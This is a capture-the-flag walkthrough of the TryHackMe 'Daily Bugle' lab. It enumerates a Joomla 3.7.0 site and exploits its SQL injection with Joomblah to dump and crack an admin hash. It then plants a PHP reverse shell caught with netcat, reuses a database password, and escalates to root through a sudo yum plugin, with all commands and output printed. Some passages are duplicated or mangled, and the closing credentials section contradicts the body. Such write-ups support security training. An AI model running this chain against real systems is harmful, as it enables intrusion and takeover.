200      GET      259l      683w     9802c http://10.10.42.138/index.php/2-uncategorised
200      GET        1l        2w       31c http://10.10.42.138/components/index.html
200      GET       17l      180w    24419c http://10.10.42.138/media/jui/js/jquery.ui.sortable.min.js
200      GET     1001l     2475w    33610c http://10.10.42.138/media/jui/js/jquery.autocomplete.js
200      GET      752l     3354w    23497c http://10.10.42.138/media/jui/js/jquery-migrate.js
200      GET        2l      265w    34010c http://10.10.42.138/media/jui/js/chosen.jquery.min.js
200      GET        8l      147w    13232c http://10.10.42.138/media/jui/js/jquery.autocomplete.min.js
200      GET       11l      181w    15447c http://10.10.42.138/media/jui/js/jquery.minicolors.min.js
200      GET       55l      142w     1603c http://10.10.42.138/media/system/js/sendtestmail-uncompressed.js
200      GET       89l      235w     2554c http://10.10.42.138/media/system/js/tabs.js
200      GET        2l       77w     2828c http://10.10.42.138/media/system/js/punycode.js
200      GET       17l       48w      538c http://10.10.42.138/media/system/js/color-field-adv-init.js
200      GET      289l      616w     6830c http://10.10.42.138/media/system/js/combobox-uncompressed.js
200      GET       45l      155w     1150c http://10.10.42.138/media/system/js/polyfill.filter-uncompressed.js
200      GET        1l       25w      525c http://10.10.42.138/media/system/js/polyfill.filter.js
200      GET       99l      263w     2326c http://10.10.42.138/media/system/js/passwordstrength.js
200      GET        1l        1w       79c http://10.10.42.138/media/system/js/color-field-init.min.js
200      GET       69l      213w     2094c http://10.10.42.138/media/system/js/moduleorder.js
200      GET        1l       42w     3150c http://10.10.42.138/media/system/js/validate.js
200      GET        1l       48w     3090c http://10.10.42.138/media/system/js/calendar-setup.js
200      GET      109l      260w     2847c http://10.10.42.138/media/system/js/progressbar-uncompressed.js
200      GET       82l      273w     3158c http://10.10.42.138/media/system/js/tabs-state.js
200      GET       49l      148w     1342c http://10.10.42.138/media/system/js/caption-uncompressed.js
200      GET       93l      221w     2372c http://10.10.42.138/media/system/js/switcher-uncompressed.js
200      GET        1l       13w     1276c http://10.10.42.138/media/system/js/associations-edit.js
200      GET      201l     1064w     8962c http://10.10.42.138/media/system/js/calendar-setup-uncompressed.js
200      GET        4l       12w     1111c http://10.10.42.138/media/system/js/progressbar.js
200      GET       39l      103w      950c http://10.10.42.138/media/system/js/keepalive-uncompressed.js
200      GET       42l      151w     1092c http://10.10.42.138/media/system/js/polyfill.map-uncompressed.js
200      GET      200l      642w     6228c http://10.10.42.138/media/system/js/frontediting-uncompressed.js
200      GET      191l      743w     6259c http://10.10.42.138/media/system/js/modal-fields-uncompressed.js
200      GET        4l       16w      431c http://10.10.42.138/media/system/js/multiselect.js
200      GET       32l      127w     1067c http://10.10.42.138/media/system/js/helpsite.js
200      GET        1l       38w     5942c http://10.10.42.138/media/system/js/html5fallback.js
200      GET        1l      157w     4854c http://10.10.42.138/media/system/js/polyfill.classlist.js
200      GET        1l       31w     2750c http://10.10.42.138/media/system/js/frontediting.js
200      GET       97l      307w     2939c http://10.10.42.138/media/system/js/associations-edit-uncompressed.js
200      GET        1l       26w     3561c http://10.10.42.138/media/system/js/combobox.js
200      GET        1l       10w     2976c http://10.10.42.138/media/system/js/modal-fields.js
200      GET        1l        1w      433c http://10.10.42.138/media/system/js/color-field-adv-init.min.js
200      GET        1l       58w     7048c http://10.10.42.138/media/system/js/repeatable.js
200      GET        3l        4w       83c http://10.10.42.138/media/system/js/color-field-init.js
200      GET        1l        4w     1012c http://10.10.42.138/media/system/js/sendtestmail.js
200      GET      237l      824w     7472c http://10.10.42.138/media/system/js/validate-uncompressed.js
200      GET      312l      959w     9007c http://10.10.42.138/media/system/js/subform-repeatable-uncompressed.js
200      GET        1l       25w      509c http://10.10.42.138/media/system/js/polyfill.map.js
200      GET        1l       17w     1897c http://10.10.42.138/media/system/js/permissions.js
200      GET      133l      384w     3496c http://10.10.42.138/media/system/js/permissions-uncompressed.js
200      GET       43l      130w     1360c http://10.10.42.138/media/system/js/multiselect-uncompressed.js
200      GET        4l       24w     1588c http://10.10.42.138/media/system/js/highlighter.js
200      GET     1098l     4241w    40455c http://10.10.42.138/media/jui/js/jquery.ui.sortable.js
200      GET        1l       16w     1018c http://10.10.42.138/media/system/js/switcher.js
200      GET        2l       34w     4464c http://10.10.42.138/media/system/js/subform-repeatable.js
200      GET      378l     1202w    10847c http://10.10.42.138/media/system/js/polyfill.classlist-uncompressed.js
200      GET     1531l     6256w    44784c http://10.10.42.138/media/jui/js/jquery.ui.core.js
200      GET     2338l     6552w    63523c http://10.10.42.138/media/jui/js/bootstrap.js
200      GET     1349l     3550w    47756c http://10.10.42.138/media/jui/js/chosen.jquery.js
200      GET     1135l     3863w    41236c http://10.10.42.138/media/jui/js/jquery.minicolors.js
200      GET       12l       66w     6099c http://10.10.42.138/media/system/js/mootree.js
200      GET        7l      104w    10127c http://10.10.42.138/media/system/js/modal.js
200      GET      111l      322w     3718c http://10.10.42.138/media/system/js/highlighter-uncompressed.js
200      GET      524l     1620w    17006c http://10.10.42.138/media/system/js/repeatable-uncompressed.js
200      GET      533l     2205w    14692c http://10.10.42.138/media/system/js/punycode-uncompressed.js
200      GET      474l     1499w    13424c http://10.10.42.138/media/system/js/polyfill.event-uncompressed.js
200      GET      888l     3195w    24500c http://10.10.42.138/media/system/js/core-uncompressed.js
200      GET      686l     2968w    21907c http://10.10.42.138/media/system/js/mootree-uncompressed.js
200      GET      477l     1327w    13441c http://10.10.42.138/media/system/js/modal-uncompressed.js
200      GET        5l     1434w    97163c http://10.10.42.138/media/jui/js/jquery.min.js
200      GET     1798l     6598w    49174c http://10.10.42.138/media/system/js/calendar-uncompressed.js
200      GET        6l      429w    38379c http://10.10.42.138/media/system/js/jquery.Jcrop.min.js
200      GET     2859l     7086w    75652c http://10.10.42.138/media/system/js/jquery.Jcrop.js
200      GET      180l     1424w    83893c http://10.10.42.138/media/system/js/mootools-core.js
200      GET        3l        7w      214c http://10.10.42.138/media/jui/img/bg-overlay.png
200      GET       23l      111w    16715c http://10.10.42.138/media/jui/img/glyphicons-halflings-white.png
200      GET       41l      278w    17113c http://10.10.42.138/media/jui/img/ajax-loader.gif
200      GET        4l       10w      270c http://10.10.42.138/media/jui/img/hue.png
200      GET        4l       14w      724c http://10.10.42.138/media/jui/img/alpha.png
200      GET       22l      151w     7033c http://10.10.42.138/media/jui/img/saturation.png
200      GET       30l      148w     8504c http://10.10.42.138/media/jui/img/joomla.png
200      GET        4l        8w      129c http://10.10.42.138/media/system/images/arrow_rtl.png
200      GET        3l        8w      131c http://10.10.42.138/media/system/images/indent2.png
200      GET        5l       13w     1390c http://10.10.42.138/media/system/images/weblink.png
200      GET        4l        8w      133c http://10.10.42.138/media/system/images/indent3.png
200      GET      242l      659w     9257c http://10.10.42.138/
200      GET        5l       14w     1049c http://10.10.42.138/media/system/images/calendar.png
200      GET      541l     1886w    13631c http://10.10.42.138/media/system/js/html5fallback-uncompressed.js
200      GET       37l       81w      674c http://10.10.42.138/media/jui/css/bootstrap-tooltip-extended.css
200      GET       78l      275w     2951c http://10.10.42.138/media/jui/css/sortablelist.css
200      GET      104l      242w     2215c http://10.10.42.138/media/jui/css/jquery.searchtools.css
200      GET        5l       16w      961c http://10.10.42.138/media/jui/css/chosen-sprite.png
200      GET        1l      407w    30212c http://10.10.42.138/media/system/js/calendar.js
200      GET        2l       11w      107c http://10.10.42.138/media/jui/fonts/icomoon-license.txt
200      GET      433l     1288w    12266c http://10.10.42.138/media/jui/css/chosen.css
200      GET        4l        9w      965c http://10.10.42.138/media/system/images/edit_unpublished.png
200      GET        4l        7w      125c http://10.10.42.138/media/system/images/indent4.png
200      GET       16l       33w      329c http://10.10.42.138/media/jui/less/layouts.less
200      GET       47l      102w      901c http://10.10.42.138/media/jui/less/close.less
200      GET      247l      611w     4857c http://10.10.42.138/media/jui/less/type.less
200      GET      754l     1257w    12213c http://10.10.42.138/media/jui/less/icomoon.less
200      GET       82l      232w     1628c http://10.10.42.138/media/jui/less/modals.less
200      GET      197l     1095w    10831c http://10.10.42.138/media/jui/less/sprites.less
200      GET      123l      347w     2678c http://10.10.42.138/media/jui/less/pagination.less
200      GET      491l     1100w     8946c http://10.10.42.138/media/jui/css/bootstrap-extended.css
200      GET       41l      278w    17113c http://10.10.42.138/media/jui/images/ajax-loader.gif
200      GET       35l      260w    23027c http://10.10.42.138/media/jui/img/glyphicons-halflings.png
200      GET        9l      247w    16693c http://10.10.42.138/media/jui/css/bootstrap-responsive.min.css
200      GET      158l     1111w    31532c http://10.10.42.138/media/jui/fonts/IcoMoon.eot
200      GET      635l     1430w    13241c http://10.10.42.138/media/jui/css/bootstrap-rtl.css
200      GET      742l     1185w    11814c http://10.10.42.138/media/jui/css/icomoon.css
200      GET      712l     1820w    16192c http://10.10.42.138/media/jui/less/forms.less
200      GET      820l     8671w   236825c http://10.10.42.138/media/system/js/mootools-more.js
200      GET        1l        2w       31c http://10.10.42.138/plugins/
200      GET    13373l    36162w   348863c http://10.10.42.138/media/system/js/mootools-more-uncompressed.js
200      GET      259l      683w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET        3l       14w      492c http://10.10.42.138/media/system/images/icon_error.gif
200      GET        5l       23w     1114c http://10.10.42.138/media/system/images/livemarks.png
200      GET      649l     1478w    13316c http://10.10.42.138/media/jui/less/bootstrap-rtl.less
200      GET     1090l     2127w    21857c http://10.10.42.138/media/jui/css/bootstrap-responsive.css
200      GET        1l        2w       31c http://10.10.42.138/includes/
200      GET       80l      243w     2001c http://10.10.42.138/media/jui/css/jquery.simplecolors.css
200      GET      158l     1110w    31358c http://10.10.42.138/media/jui/fonts/IcoMoon.ttf
200      GET      104l      585w    46015c http://10.10.42.138/media/jui/fonts/IcoMoon.woff
200      GET        3l        6w      124c http://10.10.42.138/media/system/images/indent.png
200      GET     6198l    13783w   127947c http://10.10.42.138/media/jui/css/bootstrap.css
200      GET        1l        2w       31c http://10.10.42.138/modules/
200      GET        3l        5w      458c http://10.10.42.138/media/system/images/emailButton.png
200      GET        1l        2w       31c http://10.10.42.138/cli/
200      GET        8l       26w     1315c http://10.10.42.138/media/jui/css/chosen-sprite@2x.png
200      GET      260l     1483w   124450c http://10.10.42.138/media/jui/img/jquery.minicolors.png
200      GET        1l        2w       31c http://10.10.42.138/layouts/
200      GET        1l        2w       31c http://10.10.42.138/plugins/index.html
200      GET     5976l    16752w   150812c http://10.10.42.138/media/system/js/mootools-core-uncompressed.js
200      GET        3l        7w      142c http://10.10.42.138/media/system/images/arrow.png
200      GET        7l       25w     1669c http://10.10.42.138/media/system/images/notice-download.png
200      GET      223l     9279w    95066c http://10.10.42.138/media/jui/fonts/IcoMoon.dev.svg
200      GET        9l     2494w   106242c http://10.10.42.138/media/jui/css/bootstrap.min.css
200      GET      283l     9363w    95784c http://10.10.42.138/media/jui/fonts/IcoMoon.dev.commented.svg
200      GET      109l      335w     4843c http://10.10.42.138/administrator/index.php
200      GET        1l        2w       31c http://10.10.42.138/includes/index.html
200      GET        1l        2w       31c http://10.10.42.138/modules/index.html
200      GET        3l        7w      135c http://10.10.42.138/media/system/images/indent1.png
200      GET      109l      335w     4843c http://10.10.42.138/administrator/
200      GET       19l      103w     1757c http://10.10.42.138/plugins/search/
200      GET        0l        0w     6807c http://10.10.42.138/media/jui/css/jquery.minicolors.css
200      GET        0l        0w    86043c http://10.10.42.138/media/jui/fonts/IcoMoon.svg
200      GET        0l        0w        0c http://10.10.42.138/plugins/search/newsfeeds/newsfeeds.php
200      GET       57l       93w     1717c http://10.10.42.138/plugins/search/newsfeeds/newsfeeds.xml
200      GET        0l        0w        0c http://10.10.42.138/plugins/content/pagebreak/pagebreak.php
200      GET        0l        0w        0c http://10.10.42.138/plugins/content/contact/contact.php
200      GET        0l        0w        0c http://10.10.42.138/plugins/content/fields/fields.php
200      GET        0l        0w        0c http://10.10.42.138/plugins/content/finder/finder.php
200      GET       21l       51w      755c http://10.10.42.138/plugins/content/fields/fields.xml
200      GET       24l       54w      871c http://10.10.42.138/plugins/content/finder/finder.xml
200      GET       95l      135w     2800c http://10.10.42.138/plugins/content/pagebreak/pagebreak.xml
200      GET       23l       54w      875c http://10.10.42.138/plugins/content/contact/contact.xml
200      GET        0l        0w        0c http://10.10.42.138/plugins/content/emailcloak/emailcloak.php
200      GET        0l        0w        0c http://10.10.42.138/plugins/content/loadmodule/loadmodule.php
200      GET        0l        0w        0c http://10.10.42.138/plugins/content/pagenavigation/pagenavigation.php
200      GET       60l       94w     1985c http://10.10.42.138/plugins/content/pagenavigation/pagenavigation.xml
200      GET       36l       69w     1248c http://10.10.42.138/plugins/content/emailcloak/emailcloak.xml
200      GET       38l       75w     1466c http://10.10.42.138/plugins/content/loadmodule/loadmodule.xml
200      GET       23l      151w     2609c http://10.10.42.138/plugins/content/
200      GET       17l       79w     1334c http://10.10.42.138/plugins/user/
200      GET       17l       79w     1351c http://10.10.42.138/administrator/templates/
200      GET       16l       66w     1136c http://10.10.42.138/administrator/help/
200      GET        7l       23w      383c http://10.10.42.138/administrator/help/helpsites.xml
200      GET       16l       67w     1120c http://10.10.42.138/layouts/plugins/
200      GET       19l       94w     1785c http://10.10.42.138/administrator/includes/
200      GET       28l      211w     3660c http://10.10.42.138/plugins/system/
```

When you access the scanned path from your browser,

A screen that looks like a login screen is displayed.


*Caption: Screenshot captured during daily-bugle attack workflow (step 1).*

You can find multiple pages where you can log in.


*Caption: Screenshot captured during daily-bugle attack workflow (step 2).*


*Caption: Screenshot captured during daily-bugle attack workflow (step 3).*

When using Joomla, you can scan with the scan tool

```bash
joomscan --url http://$ip
    ____  _____  _____  __  __  ___   ___    __    _  _
   (_  _)(  _  )(  _  )(  \/  )/ __) / __)  /__\  ( \( )
  .-_)(   )(_)(  )(_)(  )    ( \__ \( (__  /(__)\  )  (
  \____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
                        (1337.today)

    --=[OWASP JoomScan
    +---++---==[Version : 0.0.7
    +---++---==[Update Date : [2018/09/23]
    +---++---==[Authors : Mohammad Reza Espargham , Ali Razmjoo
    --=[Code name : Self Challenge
    @OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP

Processing http://10.10.42.138 ...

[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 3.7.0

[+] Core Joomla Vulnerability
[++] Target Joomla core is not vulnerable

[+] Checking Directory Listing
[++] directory has directory listing :
http://10.10.42.138/administrator/components
http://10.10.42.138/administrator/modules
http://10.10.42.138/administrator/templates
http://10.10.42.138/images/banners

[+] Checking apache info/status files
[++] Readable info/status files are not found

[+] admin finder
[++] Admin page : http://10.10.42.138/administrator/

[+] Checking robots.txt existing
[++] robots.txt is found
path : http://10.10.42.138/robots.txt

Interesting path found from robots.txt
http://10.10.42.138/joomla/administrator/
http://10.10.42.138/administrator/
http://10.10.42.138/bin/
http://10.10.42.138/cache/
http://10.10.42.138/cli/
http://10.10.42.138/components/
http://10.10.42.138/includes/
http://10.10.42.138/installation/
http://10.10.42.138/language/
http://10.10.42.138/layouts/
http://10.10.42.138/libraries/
http://10.10.42.138/logs/
http://10.10.42.138/modules/
http://10.10.42.138/plugins/
http://10.10.42.138/tmp/

[+] Finding common backup files name
[++] Backup files are not found

[+] Finding common log files name
[++] error log is not found

[+] Checking sensitive config.php.x file
[++] Readable config files are not found

Your Report : reports/10.10.42.138/
```

Use a scan tool to obtain user and password hashes

At this point, we execute the command to turn enumeration findings into a practical foothold. The goal is to obtain either code execution, reusable credentials, or a stable interactive shell. Relevant options are preserved so the step can be repeated exactly during verification.
```bash
python /home/n0z0/tools/exploits/Joomblah/joomblah.py http://$ip/
✅[11:15][CPU:1][MEM:47][IP:10.11.87.75][...0/tools/exploits/Joomblah]
🐉 > python /home/n0z0/tools/exploits/Joomblah/joomblah.py http://$ip/
/home/n0z0/tools/exploits/Joomblah/joomblah.py:158: SyntaxWarning: invalid escape sequence '\ '
  logo = """

    .---.    .-'''-.        .-'''-.
    |   |   '   _    \     '   _    \                            .---.
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''.     |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.
|____.'                                                                `--'  `" '---'   '---'

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

Parse the found hash

- *When creating a hash text, surround it with '', and if you surround it with "", $ will be considered a variable.
    
    The difference between these two commands is that there are subtle differences in how strings are enclosed and how the commands behave.
    
    1. **`echo '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm' >hash.txt`**
        - Because we surround the string with **single quotes** (`'`), all characters within the string are displayed as is.
        - `$` and other special characters are not evaluated and are output as a string.
        - As a result, the hash is output as-is to `hash.txt`.
    2. **`echo "$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm" >hash.txt`**
        - Because you surround it with **double quotes** (`"`), the shell tries to recognize the `$` symbol in the string as a variable.
        - However, since variables such as `$2y` are not defined, they are output as strings as they are, but variable expansion is evaluated.
        - For fixed hash strings like this, the results are essentially the same, but using single quotes is safer.
    
    ### Conclusion
    
    Although the output results are the same for strings, it is generally recommended to enclose them in single quotes when printing hashes or other fixed strings to avoid unexpected variable expansion.
    
```bash
✅[11:23][CPU:1][MEM:48][IP:10.11.87.75][...n0z0/work/thm/Daily_Bugle]
🐉 > echo '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm' >hash.txt

✅[11:24][CPU:1][MEM:48][IP:10.11.87.75][...n0z0/work/thm/Daily_Bugle]
🐉 > john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:05 0.01% (ETA: 20:58:28) 0g/s 480.9p/s 480.9c/s 480.9C/s estrellas..keith
spiderman123     (?)
1g 0:00:01:52 DONE (2024-11-02 11:26) 0.008907g/s 418.1p/s 418.1c/s 418.1C/s thebadboy..pink66
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Log in with the password and user you just analyzed.


*Caption: Screenshot captured during daily-bugle attack workflow (step 4).*

If you replace the contents of index.php from the template part with reverse shell and execute save,

Reverse shell stings


*Caption: Screenshot captured during daily-bugle attack workflow (step 5).*

At this point, we execute the command to turn enumeration findings into a practical foothold. The goal is to obtain either code execution, reusable credentials, or a stable interactive shell. Relevant options are preserved so the step can be repeated exactly during verification.
```bash
nc -lvnp 3333
sh: no job control in this shell
sh-4.2$ uname -r
❌[22:57][CPU:0][MEM:47][IP:10.11.87.75][...n0z0/work/thm/Daily_Bugle]
🐉 > nc -lvnp 3333
listening on [any] 3333 ...
connect to [10.11.87.75] from (UNKNOWN) [10.10.64.222] 33902
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 09:57:59 up 32 min,  0 users,  load average: 0.00, 0.01, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ uname -r
```

Run linpease.sh to get the password, so

Switch the user and first get user.txt

```bash
╔══════════╣ Searching passwords in config PHP files
/var/www/html/configuration.php:        public $password = 'nv5uz9r3ZEDzVjNu';
/var/www/html/libraries/joomla/log/logger/database.php:                 $this->password = (empty($this->options['db_pass'])) ? '' : $this->options['db_pass'];
/var/www/html/libraries/joomla/log/logger/database.php:                 $this->password = null;
/var/www/html/libraries/joomla/log/logger/database.php:                 'password' => $this->password,

drwx------.  2 jjameson jjameson  99 Dec 15  2019 jjameson
sh-4.2$ su jjameson
su jjameson
Password: nv5uz9r3ZEDzVjNu
cat user.txt
27a260fe3cba712cfdedb1c86d80442e
```

Since sudo is only allowed for the yum command, execute privilege elevation using yum.

```bash
[jjameson@dailybugle ~]$ sudo -l -l
sudo -l -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:

Sudoers entry:
    RunAsUsers: ALL
    Options: !authenticate
    Commands:
        /usr/bin/yum
```

https://gtfobins.github.io/gtfobins/yum/

```bash
[jjameson@dailybugle ~]$ TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOFTF=$(mktemp -d)
[jjameson@dailybugle ~]$
cat >$TF/x<<EOF
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF
[jjameson@dailybugle ~]$ cat >$TF/y.conf<<EOF
[main]
enabled=1
EOFcat >$TF/y.conf<<EOF
> [main]
> enabled=1
>
EOF
[jjameson@dailybugle ~]$ Spawn interactive root shell by loading a custom plugin.

TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
<awn interactive root shell by loading a custom plugin.
bash: Spawn: command not found
[jjameson@dailybugle ~]$
[jjameson@dailybugle ~]$ TF=$(mktemp -d)
[jjameson@dailybugle ~]$ cat >$TF/x<<EOF
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF
[jjameson@dailybugle ~]$
[jjameson@dailybugle ~]$ cat >$TF/y.conf<<EOF
> [main]
> enabled=1
> EOF
[jjameson@dailybugle ~]$
[jjameson@dailybugle ~]$ cat >$TF/y.py<<EOF
> import os
> import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
> def init_hook(conduit):
>   os.execl('/bin/sh','/bin/sh')
>
EOF
[jjameson@dailybugle ~]$ sudo yum -c $TF/x --enableplugin=y
sudo yum -c $TF/x --enableplugin=y
Loaded plugins: y
No plugin match for: y
sh-4.2# 
```

- yum sudo
    
    -Information obtained
    　- Privilege escalation is possible using the yum command.
      - Be able to obtain root shell
    
    -Information necessary to execute commands and tools
      - Execution result of sudo -l command (confirm sudo authority of yum command)
      - TF=$(mktemp -d) <temporary directory path>
      - cat >$TF/x<<EOF <configuration file content>
      - cat >$TF/y.conf<<EOF <plugin configuration content>
      - cat >$TF/y.py<<EOF <Python plugin code>
      - sudo yum -c <config file path> --enableplugin=<plugin name>
    
    Next action:
    
    1. Delete created temporary directories and files:
    rm -rf $TF
    2. System investigation after privilege elevation:
        - Checking user information with the id command
        - Checking the current username with the whoami command
        - Check the contents of the root directory with ls -la /root
        - Check password hashes with cat /etc/shadow (for security audit purposes)
    3. System vulnerability scan:
        - [Linpeas.sh](Run http://Linpeas.sh): ./linpeas.sh
        - Running Lynis: lynis audit system
    4. Check the log:
        - Check /var/log/auth.log: cat /var/log/auth.log | grep sudo
        - Check /var/log/syslog: cat /var/log/syslog | grep yum
    5. Checking the yum configuration file:
        - cat /etc/yum.conf
        - ls -la /etc/yum.repos.d/
    
    These actions allow you to understand the current state of your system and discover additional vulnerabilities.
    
```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

Get root flag

```bash
sh-4.2# cat /root/root.txt
cat /root/root.txt
eec3d53292b1821868266858d7fa6f79
sh-4.2#
```

💡 Why this works  
Initial access succeeds when enumeration findings are turned into a practical exploit chain. Capturing credentials, file disclosure, or direct RCE creates reliable pivot points for privilege escalation.

## Privilege Escalation

### 3.Privilege Escalation

---

During the privilege escalation phase, we will prioritize checking for misconfigurations such as `sudo -l` / SUID / service settings / token privilege. By starting this check immediately after acquiring a low-privileged shell, you can reduce the chance of getting stuck.

```bash
[jjameson@dailybugle ~]$ sudo -l -l
sudo -l -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:

Sudoers entry:
    RunAsUsers: ALL
    Options: !authenticate
    Commands:
        /usr/bin/yum
```

💡 Why this works  
Privilege escalation depends on chaining local weaknesses such as sudo misconfiguration, weak file permissions, or credential reuse. If a GTFOBins technique is used, the mechanism is that an allowed binary executes a child process or shell without dropping elevated effective privileges.

## Credentials

```text
No credentials obtained.
```

## Lessons Learned / Key Takeaways

### 4.Overview

---




## References

- nmap
- rustscan
- john
- nc
- linpeas
- sudo
- ssh
- cat
- grep
- find
- python
- php
- gtfobins
